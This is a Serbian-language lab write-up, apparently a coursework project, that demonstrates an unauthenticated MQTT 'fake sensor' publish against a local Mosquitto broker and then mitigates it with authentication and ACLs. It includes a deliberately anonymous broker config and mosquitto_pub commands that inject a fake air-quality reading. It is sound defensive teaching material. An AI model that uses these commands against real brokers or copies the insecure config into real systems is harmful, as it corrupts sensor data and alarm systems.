






# Exploit 1 (Praktični) - MQTT neautorizovan publish (lažni senzor)

## 0. Kratak opis

UrbanSense koristi MQTT publish/subscribe model za prijem merenja sa IoT senzora. U ranjivoj konfiguraciji MQTT broker dozvoljava klijentima da se povežu i objavljuju poruke bez adekvatne autentifikacije i kontrole pristupa (ACL). Napadač se može predstaviti kao legitimni senzor i objaviti lažne podatke na topic koji backend servis obrađuje, čime se narušava integritet podataka (a potencijalno i sistem alarmiranja).

---

## 1. Pogođene komponente

- MQTT sloj komunikacije (broker: **Eclipse Mosquitto**, Docker)
- Go backend (subscriber/ingest servis koji sluša topic-e i obrađuje merenja)

---

## 2. Bezbednosni ciljevi i osetljivi resursi

### Primarni narušeni cilj
- **Integrity (Integritet):** napadač unosi lažna merenja koja se tretiraju kao validna.

### Sekundarni efekti
- **Availability (Dostupnost):** masovno slanje poruka može preopteretiti ingest/obradu.
- **Confidentiality (Poverljivost):** ukoliko broker dozvoljava subscribe bez kontrole, napadač može čitati podatke.

### Osetljivi resursi (assets)
- Podaci sa senzora (sirovi/obrađeni)
- Sistem za alarmiranje i obaveštavanje (ako se alarmi okidaju na osnovu merenja)

---

## 3. Ranjivost

### Suština ranjivosti
MQTT broker je konfigurisan tako da:
- dozvoljava konekciju bez autentifikacije (anonymous / bez username&password),
- nema ACL pravila koja ograničavaju ko sme da publish-uje na kritične topic-e (npr. `sensors/+/data`).

To omogućava bilo kom klijentu na mreži:
- da publikuje poruke (fake sensor),
- i/ili da se pretplati na topic-e (prisluškivanje).

### Klasa slabosti (CWE)
- **CWE-306: Missing Authentication for Critical Function / CWE-284: Improper Access Control**  
  (kritična funkcija: objavljivanje merenja na topic koji sistem smatra izvorom istine)

> Napomena: Ovakva konfiguracija je naročito rizična u IoT sistemima gde MQTT broker predstavlja centralnu tačku prikupljanja podataka, jer kompromitacija tog sloja direktno utiče na integritet svih daljih procesa (obrada, agregacija, alarmiranje).

---

## 4. Pretnja i scenario napada

### Pretnja
Neautorizovana poruka ulazi u sistem kao da dolazi od legitimnog senzora.

### Napadač
- eksterni korisnik na istoj mreži / sa pristupom brokeru,
- ili kompromitovan uređaj koji se povezuje na broker.

### Preduslovi
- broker je dostupan napadaču (npr. otvoren port 1883),
- nema autentifikacije i/ili ACL kontrole,
- backend servis sluša poznati topic.

### Tok napada (high-level)
1. Napadač se povezuje na broker.
2. Napadač publikuje lažno merenje na topic koji backend obrađuje.
3. Backend prihvata poruku i zapisuje/obrađuje je kao validnu (log/baza/alert).

---

## 5. Očekivani rezultat (dokaz uspeha)

Napad se smatra uspešnim ako se dokaže makar jedno od sledećeg:
- backend servis loguje prijem poruke kao validne (npr. “received sensor data”),
- u skladištu se pojavljuje lažno merenje,
- alarm logika reaguje na lažnu vrednost.

---

## 6. Implementacija (ranjiva verzija) i izvođenje napada

Ovaj deo opisuje ranjivu postavku MQTT brokera i minimalni tok demonstracije napada. Za potrebe demonstracije koristi se **Eclipse Mosquitto** pokrenut u Docker okruženju na Linux sistemu.

### 6.1. MQTT broker (Eclipse Mosquitto) u Docker okruženju - ranjiva konfiguracija

U okviru repozitorijuma kreiran je direktorijum:

- `implementation/vulnerable/mosquitto/`

U navedenom direktorijumu nalaze se sledeći fajlovi:

- `mosquitto.conf` - ranjiva konfiguracija brokera (omogućava anonimni pristup)
- `docker-compose.yml` - definicija kontejnera za pokretanje brokera

#### 6.1.1. Konfiguracioni fajl `mosquitto.conf`

Fajl: `implementation/vulnerable/mosquitto/mosquitto.conf`

```
listener 1883
allow_anonymous true

# Logovanje je uključeno radi lakšeg praćenja demonstracije
log_type all
```

Ranjivost u ovoj konfiguraciji nastaje zbog allow_anonymous true, čime se omogućava povezivanje i publish bez autentifikacije i kontrole pristupa.

#### 6.1.2. Docker Compose fajl docker-compose.yml

Fajl: implementation/vulnerable/mosquitto/docker-compose.yml

```
services:
  mosquitto:
    image: eclipse-mosquitto:2
    container_name: urbansense-mosquitto-vuln
    ports:
      - "1883:1883"
    volumes:
      - ./mosquitto.conf:/mosquitto/config/mosquitto.conf:ro
```

#### 6.1.3. Pokretanje brokera

Broker se pokreće iz direktorijuma implementation/vulnerable/mosquitto/:

```
docker compose up -d
docker ps | grep urbansense-mosquitto-vuln
```
Uspešno pokretanje se potvrđuje prisustvom kontejnera i otvorenim portom 1883.


<p align="center">
  <i>Prikaz pokretanja brokera</i>
</p>

---

### 6.2. Minimalni backend (Go) - ranjivo ponašanje

U ranjivoj varijanti backend komponenta prihvata MQTT poruke kao validne bez provere identiteta izvora (npr. bez provere kredencijala, sertifikata, whitelist-e uređaja ili potpisa poruke). Za demonstraciju je dovoljno da backend bude subscriber na topic wildcard-u `sensors/+/data` i da loguje primljeni payload.

> Napomena: U ovoj fazi nije potrebno implementirati bazu ili alarm logiku; dovoljno je demonstrirati prijem i obradu poruke kroz logove.

---

### 6.3. Izvođenje napada iz terminala (PoC)

Za demonstraciju napada koriste se CLI alati:
- `mosquitto_pub`
- `mosquitto_sub`

Ukoliko alati nisu instalirani, instalacija na Linux sistemu se izvršava komandom:

```bash
sudo apt-get update
sudo apt install mosquitto
```

#### 6.3.1. Posmatranje saobraćaja (subscriber)

U jednom terminalu pokreće se subscriber nad relevantnim topic-om:

```bash
mosquitto_sub -h localhost -p 1883 -t "sensors/+/data" -v
```

Ova komanda omogućava direktan uvid u poruke koje broker prihvata na ciljanom topic-u.

#### 6.3.2. Napad - neautorizovan publish (“lažni senzor”)

U drugom terminalu izvršava se publish poruke na topic koji backend komponenta sluša:

```bash
mosquitto_pub -h localhost -p 1883 \
  -t "sensors/fake-sensor-001/data" \
  -m '{"sensorId":"fake-sensor-001","type":"air_quality","pm25":999.0,"ts":"2026-02-20T12:00:00Z"}'
```

Izvršavanjem ove komande napadač uspešno publikuje merenje bez autentifikacije, čime se simulira scenario “lažnog senzora”.


<p align="center">
  <i>Prikaz slanja lažnih poruka</i>
</p>

#### 6.3.3. Verifikacija uspeha napada

Napad se smatra uspešnim ukoliko se potvrdi makar jedno od sledećeg:
- `mosquitto_sub` prikazuje poslatu poruku (broker prihvata publish),
- backend komponenta (Go subscriber/ingest) loguje prijem poruke kao validne,
- u kasnijim fazama lažna vrednost se propagira dalje.


<p align="center">
  <i>Prikaz prijema lažnih poruka</i>
</p>

---

## 7. Mitigacija i ponovna provera (retest)

Nakon uspešne demonstracije neautorizovanog publish-a, implementirana je mitigacija na nivou MQTT brokera u cilju eliminisanja anonimnog pristupa i uvođenja kontrole pristupa nad topic-ima.

### 7.1. Teorijska osnova mitigacije

Ranjivost je nastala usled omogućavanja anonimnog pristupa (`allow_anonymous true`) i odsustva ACL (Access Control List) pravila.

Mitigacija se sastoji iz:

- onemogućavanja anonimnog pristupa,
- uvođenja autentifikacije korisnika (username/password),
- definisanja ACL pravila koja precizno određuju koji korisnik može da publish-uje na koji topic.

Na ovaj način se implementira princip **najmanjih privilegija (least privilege)**, čime se sprečava scenario lažnog senzora.

---

### 7.2. Mitigovana konfiguracija brokera

U repozitorijumu je kreiran direktorijum:

`implementation/mitigated/mosquitto/`

#### 7.2.1. Konfiguracioni fajl `mosquitto.conf`

```conf
listener 1883

allow_anonymous false

password_file /mosquitto/config/passwords
acl_file /mosquitto/config/acl

log_type all
```

Ključna izmena u odnosu na ranjivu verziju je postavljanje:

```
allow_anonymous false
```

čime se zabranjuje povezivanje bez kredencijala.

#### 7.2.2. Password fajl

Kreiran je fajl passwords korišćenjem alata:

```
mosquitto_passwd -c passwords sensor001
```

Za potrebe demonstracije definisan je korisnik:

```
username: sensor001
lozinka: 123 (definisana tokom kreiranja fajla)
```


<p align="center">
  <i>Prikaz kreiranja password-a</i>
</p>

#### 7.2.3. ACL fajl

Fajl acl definiše dozvole pristupa:

```
user sensor001
topic read sensors/+/data
topic write sensors/sensor001/data
```

Ovim pravilom je definisano da korisnik sensor001 može da publikuje isključivo na topic `sensors/sensor001/data`.

#### 7.2.4. Docker Compose (mitigovana verzija)
```
services:
  mosquitto:
    image: eclipse-mosquitto:2
    container_name: urbansense-mosquitto-secure
    ports:
      - "1883:1883"
    volumes:
      - ./mosquitto.conf:/mosquitto/config/mosquitto.conf:ro
      - ./passwords:/mosquitto/config/passwords:ro
      - ./acl:/mosquitto/config/acl:ro
```

Broker se pokreće iz direktorijuma:

```
docker compose up -d
```

### 7.3. Ponovna provera (retest)
#### 7.3.1. Pokušaj napada bez kredencijala

```
mosquitto_pub -h localhost -p 1883 \
  -t "sensors/fake-sensor-001/data" \
  -m "test"
```
Očekivani rezultat: `Connection Refused: not authorised.`

#### 7.3.2. Pokušaj sa pogrešnim kredencijalima
```
mosquitto_pub -h localhost -p 1883 -u fake -P 123 \
  -t "sensors/fake-sensor-001/data" \
  -m "test"
```
Očekivani rezultat: konekcija odbijena.

#### 7.3.3. Validan publish (legitiman senzor)
```
mosquitto_pub -h localhost -p 1883 \
  -u sensor001 -P <lozinka> \
  -t "sensors/sensor001/data" \
  -m '{"sensorId":"sensor001","pm25":20}'
```
Poruka se uspešno prihvata samo ukoliko korisnik ima odgovarajuće dozvole definisane u ACL fajlu.


<p align="center">
  <i>Prikaz različitih pokušaja slanja poruka</i>
</p>


<p align="center">
  <i>Prikaz uspešno primljenih poruka od ulogovanih korisnika</i>
</p>

### 7.4. Zaključak mitigacije

Nakon primene autentifikacije i ACL pravila, neautorizovan publish više nije moguć. Time je eliminisan scenario lažnog senzora i obnovljen integritet sistema.

Mitigacija demonstrira značaj pravilne konfiguracije MQTT brokera u IoT arhitekturama, posebno u kontekstu sistema koji se oslanjaju na podatke sa senzora kao izvor istine.

> Napomena: Mitigacija je sprovedena isključivo na brokerskom sloju, bez izmene backend logike.
---

## 8. Reference

- [Mosquitto konfiguracija (`mosquitto.conf` manual)](https://mosquitto.org/man/mosquitto-conf-5.html)
- [MITRE CWE-306: Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html)
- [MQTT (opšti opis protokola)](https://mqtt.org/)